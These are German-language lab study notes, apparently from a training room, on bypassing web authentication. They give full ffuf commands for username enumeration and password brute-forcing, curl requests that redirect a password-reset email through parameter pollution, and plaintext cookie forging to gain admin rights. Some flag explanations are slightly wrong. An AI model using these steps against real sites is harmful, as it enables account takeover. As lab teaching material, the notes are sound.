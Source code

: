 ### Usernames Herausfinden via Error Meldungen

Funktioniert anhand der Unterschiedlichen Meldungen wenn versucht wird sich mit einem Unbekannten Nutzer gegenüber mit einem Bekannten Nutzer mit Falschem PW anzumelden

Beispiel via ffuf
```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.134.46/customers/signup -mr "username already exists"
```

Befehl erklärt: 
**fuff** ist klar zum starten
**-w**  Spezifiziert die Wordlist mit dem Pfad dahinter 
**-X** Spezifiziert die art des Requests (Default GET) hier geändert auf POST
**-d** Spezifiziert die Daten die wir senden hier die Felder Username, Password, cpassword. in dem beispiel setzen wir die daten für "Username" auf FUZZ damit diese durchgetestet werden
**-H** wird verwendet, um der Anfrage zusätzliche Kopfzeilen hinzuzufügen. In diesem Fall setzen wir den Content-Type, damit der Webserver weiß, dass wir Formulardaten senden
**-u** Spezifiziert die URL des Ziels 
**-mr** Spezifiziert den Text den wir als Reply suchen um zu wissen das es den Username gibt

### Passwort via fuff Brute Forcen
Beispiel Befehl:
```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.134.46/customers/login -fc 200
```

Befehl erklärt:
- fuff Startet den Befehl 
- -w spezifiziert die Wordlists (da zwei genutzt werden Spezifizierung auf W1 und W2)
- -X Spezifiziert das es ein PUSH Request sein soll
- -d Spezifiziert welche daten auf wohin sollen 
- -H wird verwendet, um der Anfrage zusätzliche Kopfzeilen hinzuzufügen. In diesem Fall setzen wir den Content-Type, damit der Webserver weiß, dass wir Formulardaten senden
- -u Gibt die Ziel URL vor
- -fc 200 chect für HTTP Status Code 200 


### Logic Fehler 
Manchmal enthalten Authentifizierungsverfahren logische Fehler. Ein Logikfehler liegt vor, wenn der typische logische Pfad einer Anwendung entweder bypassed, circumvented oder von einem Hacker manipuliert wird. Logikfehler können in jedem Bereich einer Website auftreten, aber wir werden uns in diesem Fall auf Beispiele im Zusammenhang mit der Authentifizierung konzentrieren.

Beispiel: 

Wir werden die Funktion „Passwort zurücksetzen“ auf der Website von Acme IT Support (http://10.10.134.46/customers/reset) untersuchen. Wir sehen ein Formular, in dem wir nach der E-Mail-Adresse gefragt werden, die mit dem Konto verbunden ist, für das wir das Passwort zurücksetzen möchten. Wenn eine ungültige E-Mail-Adresse eingegeben wird, erhalten Sie die Fehlermeldung „Account not found from supplied email address“.

Zu Demonstrationszwecken verwenden wir die E-Mail-Adresse robert@acmeitsupport.thm, die akzeptiert wird. Im nächsten Schritt des Formulars werden wir nach dem Benutzernamen gefragt, der mit dieser Anmelde-E-Mail-Adresse verknüpft ist. Wenn wir robert als Benutzernamen eingeben und auf die Schaltfläche Benutzernamen prüfen klicken, erhalten Sie eine Bestätigungsmeldung, dass eine E-Mail zum Zurücksetzen des Passworts an robert@acmeitsupport.thm gesendet wird.

Darauf hin schauen wir uns die Reply auf einen passenden Curl befgehl an: 
```
curl 'http://10.10.134.46/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

Mit dem Flag -H fügen wir der Anfrage eine zusätzliche Kopfzeile hinzu. In diesem Fall setzen wir den Content-Type auf application/x-www-form-urlencoded, wodurch der Webserver weiß, dass wir Formulardaten senden, damit er unsere Anfrage richtig versteht.
In der Anwendung wird das Benutzerkonto mit Hilfe des Query-Strings abgefragt, aber später, in der Anwendungslogik, wird die E-Mail zum Zurücksetzen des Passworts mit Hilfe der Daten in der PHP-Variablen $_REQUEST gesendet.

Die PHP-Variable $_REQUEST ist ein Array, das Daten aus dem Query-String und POST-Daten enthält. Wenn derselbe Schlüsselname sowohl für den Query-String als auch für die POST-Daten verwendet wird, bevorzugt die Anwendungslogik für diese Variable die POST-Datenfelder gegenüber dem Query-String. Wenn wir also dem POST-Formular einen weiteren Parameter hinzufügen, können wir steuern, wohin die E-Mail zum Zurücksetzen des Passworts zugestellt wird.

Im nächsten Schritt müssen Sie ein Konto im Kundenbereich von Acme IT Support erstellen. Dadurch erhalten Sie eine eindeutige E-Mail-Adresse, mit der Sie Support-Tickets erstellen können. Die E-Mail-Adresse hat das Format {username}@customer.acmeitsupport.thm

Curl Befehl mit angepasstem Ziel im Post

```
curl 'http://10.10.134.46/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=**{username}**@customer.acmeitsupport.thm'
```


### Cookie Manipulation

Manchmal gibt es Cookies in Plain Text wodurch es sehr einfach wird diese zu manipulieren 
Bsp.:
für einen erfolgreichen login 

Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/

um diese einzuspielen hier ein Beispiel Befehl: 

```
curl -H "Cookie: logged_in=true; admin=true" http://10.10.134.46/cookie-test
```

Manchmal können Cookie-Werte wie eine lange Kette zufälliger Zeichen aussehen; diese werden als Hashes bezeichnet, die eine unumkehrbare Darstellung des ursprünglichen Textes sind. Hier sind einige Beispiele, auf die man häufiger Stößt

|                     |                 |                                                                                                                                  |
| ------------------- | --------------- | -------------------------------------------------------------------------------------------------------------------------------- |
| **Original String** | **Hash Method** | **Output**                                                                                                                       |
| 1                   | md5             | c4ca4238a0b923820dcc509a6f75849b                                                                                                 |
| 1                   | sha-256         | 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b                                                                 |
| 1                   | sha-512         | 4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a |
| 1                   | sha1            | 356a192b7913b04c54574d18c28d46e6395428ab                                                                                         |
Zu der Identifikation des Hashes kann man dann z.B. Crack Station nutzen 
https://crackstation.net/
oder hashes.com
https://hashes.com/en/decrypt/hash

